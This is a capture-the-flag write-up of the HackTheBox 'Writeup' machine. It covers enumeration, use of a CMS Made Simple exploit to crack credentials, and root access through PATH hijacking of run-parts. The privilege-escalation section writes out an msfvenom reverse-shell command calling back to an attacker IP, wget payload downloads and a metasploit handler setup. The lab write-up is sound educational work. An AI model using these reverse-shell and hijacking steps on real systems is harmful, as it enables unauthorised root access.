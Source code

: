 ```yaml
---
title: "HackTheBox Walkthrough - WriteUp"
categories:
  - Hackthebox
tags:
  - hackthebox
  - htb
  - cms
  - pspy
  - search order hijacking
classes: wide
---
```


![Banner](https://opalsec.github.io/assets/images/writeup/banner.png)

# Overview:

This machine was a good reminder to do the basics of enumeration - robots.txt is still used commonly in the wild to blacklist directories for bots to crawl, and definitely came in handy here.

The privesc was a challenge as none of my usual enumeration methods worked, but as a result I've now added pspy to my playbook to help better enumerate running processes on a target machine.

I personally don't think this should be rated as easy - the CMS exploit was a stab in the dark and the process for finding the privesc was also pretty niche, relying on a tool that not a lot of people know about. Medium - Hard is probably more appropriate for the average user of HTB.

Thanks to HTB and jkr for another great box to work through!
<!--more-->
# Enumeration
As always, start with an nmap scan to identify listening ports and services:
```
root@kali:~# nmap -sS -sC -sV -vv -Pn -p- -oA /home/montana/Documents/hackthebox/writeup/allscan 10.10.10.138
```

Which provides us with...not a whole lot to go on:
```
Nmap scan report for 10.10.10.138
Host is up, received user-set (0.26s latency).
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT   STATE SERVICE    REASON         VERSION
22/tcp open  ssh        syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKBbBK0GkiCbxmAbaYsF4DjDQ3JqErzEazl3v8OndVhynlxNA5sMnQmyH+7ZPdDx9IxvWFWkdvPDJC0rUj1CzOTOEjN61Qd7uQbo5x4rJd3PAgqU21H9NyuXt+T1S/Ud77xKei7fXt5kk1aL0/mqj8wTk6HDp0ZWrGBPCxcOxfE7NBcY3W++IIArn6irQUom0/AAtR3BseOf/VTdDWOXk/Ut3rrda4VMBpRcmTthjsTXAvKvPJcaWJATtRE2NmFjBWixzhQU+s30jPABHcVtxl/Fegr3mvS7O3MpPzoMBZP6Gw8d/bVabaCQ1JcEDwSBc9DaLm4cIhuW37dQDgqT1V
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPzrVwOU0bohC3eXLnH0Sn4f7UAwDy7jx4pS39wtkKMF5j9yKKfjiO+5YTU//inmSjlTgXBYNvaC3xfOM/Mb9RM=
|   256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEuLLsM8u34m/7Hzh+yjYk4pu3WHsLOrPU2VeLn22UkO
80/tcp open  tcpwrapped syn-ack ttl 63
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Port 80

Browsing to port 80, it's an ASCII art landing page, which makes a point of having supposedly been compiled with love in vi:

![index](https://opalsec.github.io/assets/images/writeup/index.png)

As the kids say (I think) - weird flex, but okay.

Part of my (and many others') standard enumeration is to crawl for common directories for additional information and a way in. For this, I turn to my trusty wfuzz query:
```
root@kali:~# wfuzz -w /opt/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.138/FUZZ -c --hh 0 --hc 404 
```

Unfortunately for me, the creator of this VM has put in place DoS protection (Eeyore, an OG DoS protection script) that's tanking my enumeration in the early stages:
![block](https://opalsec.github.io/assets/images/writeup/block.png)

Before starting down the rabbithole of trying to figure out how to beat the DoS protection, I tried one more common check - what's in robots.txt?

Again, an easy way for an attacker to find a starting point for things to look at - the blacklisted directories that an admin doesn't want you to see.

![robot](https://opalsec.github.io/assets/images/writeup/robot.png)

Taking a look at it, it's just a dump of notes the author is supposedly planning on uploading at some stage. Again - the weird flex about the page being written in a text editor...or not?

![writeup](https://opalsec.github.io/assets/images/writeup/writeup.png)

Thinking in that vein, I had a look but couldn't find any trace of what it was made with, and didn't see how it'd be relevant to progressing on this machine. 

After trawling through the pages again and finding nothing, I fired up burp and browsed to the same pages and saw this cookie:

![cookie](https://opalsec.github.io/assets/images/writeup/cookie.png)

A quick google shows it's for a basic CMS called "CMS Made Simple". Searching in Exploit-DB, we can see there's a bunch of historical and recent exploits for this CMS:

![exploitdb](https://opalsec.github.io/assets/images/writeup/exploitdb.png)

Despite my best efforts, I was unable to find any version information, and the best indication I had was some pages had the copyright for CMS up to 2019 

![copyright](https://opalsec.github.io/assets/images/writeup/copyright.png)

Given this, I decided to work backwards through the exploits until I found one that worked - 46635.

# Exploitation

This was a very cool script, and running it with the --crack option took out the extra work that I'd otherwise have had to do with hashcat/JTR

![script](https://opalsec.github.io/assets/images/writeup/script.png)

The script iterates through characters to bruteforce the salt and hashed password, which it then cracks:

![pass](https://opalsec.github.io/assets/images/writeup/pass.png)

I then SSH'd on to get the contents of user.txt

# Privilege Escalation

Classic enumeration techniques like LinEnum.sh didn't help, and after a caving and asking for a hint on the HTB discord, I got a great hint from [Gorgamite](https://www.hackthebox.eu/home/users/profile/82774), who said I should download [a tool called pspy](https://github.com/DominicBreuker/pspy) and watch what happened when a user SSH'd in.

I downloaded it and hosted it on Kali with SimpleHTTPServer, and retrieved it with wget:
```
jkr@writeup:/tmp$ wget http://10.10.10.138:8000/pspy64; chmod +x pspy64; ./pspy64
```

Which showed me this:
```
2019/10/11 02:18:56 CMD: UID=0    PID=3509   | sshd: jkr [priv]  
2019/10/11 02:18:56 CMD: UID=0    PID=3510   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/updat
e-motd.d > /run/motd.dynamic.new 
2019/10/11 02:18:56 CMD: UID=0    PID=3511   | run-parts --lsbsysinit /etc/update-motd.d 
2019/10/11 02:18:56 CMD: UID=0    PID=3512   | uname -rnsom 
2019/10/11 02:18:56 CMD: UID=0    PID=3513   | sshd: jkr [priv]  
2019/10/11 02:18:56 CMD: UID=1000 PID=3514   | sshd: jkr@pts/2   
2019/10/11 02:18:56 CMD: UID=1000 PID=3515   | -bash 
2019/10/11 02:18:56 CMD: UID=1000 PID=3516   | -bash 
2019/10/11 02:18:56 CMD: UID=1000 PID=3517   | -bash 
2019/10/11 02:18:56 CMD: UID=1000 PID=3518   | -bash 
2019/10/11 02:19:01 CMD: UID=0    PID=3519   | /usr/sbin/CRON 
2019/10/11 02:19:01 CMD: UID=0    PID=3520   | /usr/sbin/CRON 
2019/10/11 02:19:01 CMD: UID=0    PID=3521   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```

Every time a user logged in, the run-parts program was run without a file-path specified. This is great for us, as leaves it open to search order hijacking, meaning if we place a malicious binary with the same name higher up in the $PATH, our program will run instead.

To do this is generated a simple Linux reverse shell using msfvenom, with the same name as the binary being run on the endpoint:
```
root@kali:/home/montana/Documents/hackthebox/writeup# msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.10.14.17 LPORT=1234 -f elf -o run-parts
```

The important part is to make sure this is dropped as high up in the $PATH variable as possible to ensure it's run instead of the legit binary. In this case when checking /usr/local, we have write permissions to both sbin and bin, but it looks like the creator of the VM stripped read access - just to make life difficult:

![write](https://opalsec.github.io/assets/images/writeup/write.png)

As we can write to /usr/local/sbin, which is the first path in the $PATH variable, I hopped over to the directory; hosted my exploit with SimpleHTTPServer, and retrieved it on the remote end with wget. 

```
jkr@writeup:/usr/local/sbin$ wget http://10.10.14.17:8000/run-parts; chmod +x run-parts
```

![wget](https://opalsec.github.io/assets/images/writeup/wget.png)

To force the endpoint to run my program, all I had to do was start an SSH connection in another terminal while listening on netcat.

Unfortunately while it did cause the program to run, the connection died as soon as I tried to enter a command.

I couldn't figure out why, so I decided to use metasploit's multi/handler to see if I'd have better luck with that:

```
# start the db if it's not already up, and launch msfconsole:
$> /usr/share/metasploit-framework/msfdb run

# select /multi/handler:
$> use /multi/handler

# configure it to listen on port 1234 on all interfaces with the same payload we used with msfvenom:
$> set LHOST 0.0.0.0
$> set LPORT 1234
$> set payload /linux/x64/shell/reverse_tcp

# kick it off:
$> run
```

Going through the same process of kicking our malicious binary off by starting an SSH session, we get a callback with a root shell:

![rootshell](https://opalsec.github.io/assets/images/writeup/rootshell.png)

There's no prompt which makes this ugly, but it's done the job - here's our flag:

![flag](https://opalsec.github.io/assets/images/writeup/flag.png)

P.S.: I'd also mention that while I didn't check what the /root/bin/cleanup.pl script was doing, it appeared to wipe my reverse shell periodically, meaning I'd have to ensure I re-downloaded it and spun up the SSH connection before it ran again.
